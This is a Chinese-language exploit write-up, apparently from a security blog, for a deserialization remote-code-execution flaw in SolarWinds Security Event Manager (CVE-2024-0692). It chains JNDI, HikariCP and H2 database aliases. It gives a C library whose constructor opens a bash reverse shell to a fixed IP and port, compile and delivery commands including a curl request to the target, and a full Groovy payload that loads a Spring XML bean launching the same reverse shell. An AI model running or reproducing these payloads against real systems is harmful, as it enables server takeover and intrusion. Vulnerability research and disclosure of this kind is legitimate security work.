上述过程中 JVM 返回的 Class 对象和 Runtime 对象会被序列化保存在 H2 数据库的 clazz 和 runtime 变量内 (类型为 `JAVA_OBJECT`)

而 java.lang.Runtime 没有实现 Serializable 接口，因此 SQL 语句会报错，即需要保证过程中使用的所有变量都得是可序列化的

至于为什么还要专门找一个反射调用静态方法的 invokeStaticMethod, 这是因为上面通过 invokeMethod 调用 getAbsolutePath 返回的临时文件路径的类型为 java.lang.Object (实际上为 java.lang.String)

但是 H2 不支持 `JAVA_OBJECT` 与 VARCHAR (CHARACTER VARYING) 之间的类型转换，也就无法将路径作为参数传入 `java.lang.System.load(java.lang.String)`

[https://github.com/h2database/h2database/issues/3389](https://github.com/h2database/h2database/issues/3389)

因此需要找到一个参数类型为 java.lang.Object 的静态方法 (invokeStaticMethod), 然后通过这个方法间接调用 System.load, 进而加载动态链接库实现 RCE

最后要注意编译出来的 .so 比较大，转成 Hex 后字符串的长度过长，直接写会报错，需要分块写入

利用流程：

首先编写 exp.c

```plain
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    system("bash -c 'bash -i >& /dev/tcp/100.109.34.110/4444 0>&1'");
}
```

编译

```plain
# Linux amd64
gcc -shared -fPIC exp.c -o exp.so
```

根据之前的代码生成 payload.amf

然后将 Groovy payload 保存，运行 [JNDIMap](https://github.com/X1r0z/JNDIMap)

```plain
java -jar JNDIMap.jar -f scripts/solarwinds-amf-rce-1.groovy -u "/Custom/x"
```

curl 发送 amf payload

```plain
curl https://192.168.30.131:8443/services/messagebroker/streamingamf -k -H "Content-Type: application/amf" --data-binary @payload.amf --output -
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304191557-92d87848-da18-1.png)

### ClassPathXmlApplicationContext

payload (Groovy)

```plain
import map.jndi.server.WebServer

import javax.naming.Reference
import javax.naming.StringRefAddr

// SolarWinds Security Event Manager AMF Deserialization RCE (CVE-2024-0692)
// instantiate ClassPathXmlApplicationContext

def list = []

// drop the previous alias if exists
list << "DROP ALIAS IF EXISTS INVOKE_CONSTRUCTOR"
list << "DROP ALIAS IF EXISTS INVOKE_METHOD"
list << "DROP ALIAS IF EXISTS URI_CREATE";
list << "DROP ALIAS IF EXISTS CLASS_FOR_NAME"

// alias some external Java methods
list << "CREATE ALIAS INVOKE_CONSTRUCTOR FOR 'org.apache.commons.beanutils.ConstructorUtils.invokeConstructor(java.lang.Class, java.lang.Object)'"
list << "CREATE ALIAS INVOKE_METHOD FOR 'org.apache.commons.beanutils.MethodUtils.invokeMethod(java.lang.Object, java.lang.String, java.lang.Object)'"
list << "CREATE ALIAS URI_CREATE FOR 'java.net.URI.create(java.lang.String)'"
list << "CREATE ALIAS CLASS_FOR_NAME FOR 'java.lang.Class.forName(java.lang.String)'"

// Spring XML content
def content = '''<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value><![CDATA[bash -i >& /dev/tcp/100.109.34.110/4444 0>&1]]></value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
'''

// host the xml on a web server
def server = WebServer.getInstance()
server.serveFile("/exp.xml", content.getBytes())

def xml_url = "http://$server.ip:$server.port/exp.xml"

// invoke URI.create() to create a URI object
list << "SET @uri=URI_CREATE('$xml_url')"
// invoke uri.toString() to transform the type of `xml_url` (from java.lang.String to java.lang.Object) to avoid H2 SQL convert error
// because the return type of INVOKE_METHOD is java.lang.Object
list << "SET @xml_url_obj=INVOKE_METHOD(@uri, 'toString', NULL)"
// instantiate ClassPathXmlApplicationContext
list << "SET @context_clazz=CLASS_FOR_NAME('org.springframework.context.support.ClassPathXmlApplicationContext')"
// the second parameter of INVOKE_CONSTRUCTOR requires java.lang.Object, so we use `xml_url_obj` instead of `xml_url`
list << "CALL INVOKE_CONSTRUCTOR(@context_clazz, @xml_url_obj)"

// use INIT property to execute multi SQL statements, and each statement must be separated by `\;`
def url = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=${list.join('\\;')}\\;"

def ref = new Reference("javax.sql.DataSource", "com.zaxxer.hikari.HikariJNDIFactory", null)
ref.add(new StringRefAddr("driverClassName", "org.h2.Driver"));
ref.add(new StringRefAddr("jdbcUrl", url));

return ref
```

ClassPathXmlApplicationContext 的利用思路很常见了，在 PostgreSQL JDBC RCE 和 ActiveMQ RCE 中都出现过

需要找到一个能够调用构造函数的静态方法，即通过 invokeConstructor 实例化 ClassPathXmlApplicationContext 加载 XML 实现 RCE

`org.apache.commons.beanutils.ConstructorUtils#invokeConstructor(java.lang.Class<T>, java.lang.Object)`

```plain
public static <T> T invokeConstructor(Class<T> klass, Object arg) throws NoSuchMethodException, IllegalAccessException, InvocationTargetException, InstantiationException {
    Object[] args = toArray(arg);
    return invokeConstructor(klass, args);
}
```

还是得注意一个点，前面说过 H2 不支持 `JAVA_OBJECT` 与 VARCHAR (CHARACTER VARYING) 之间的类型转换，因此直接将 XML URL 传入 `INVOKE_CONSTRUCTOR` 会报错，因为对应的 invokeConstructor 的第二个参数的类型为 java.lang.Object, 即 `JAVA_OBJECT`, 而 H2 字符串的类型为 VARCHAR (CHARACTER VARYING)

解决方法是通过一系列的反射操作拿到一个类型为 java.lang.Object 的对象 (实际上仍然为 java.lang.String)

这里我的思路是利用 URI.create 静态方法，返回一个 URI 对象

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304191608-99b52026-da18-1.png)

然后通过 `INVOKE_METHOD` 调用其 toString 方法，这样由于 invokeMethod 方法签名的原因，会使得最终返回的对象被 H2 认为是 `JAVA_OBJECT` 类型

最后再将这个对象作为参数传入 `INVOKE_CONSTRUCTOR` 即可成功实例化 ClassPathXmlApplicationContext 实现 RCE

利用流程跟前面一样

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304191633-a826b020-da18-1.png)
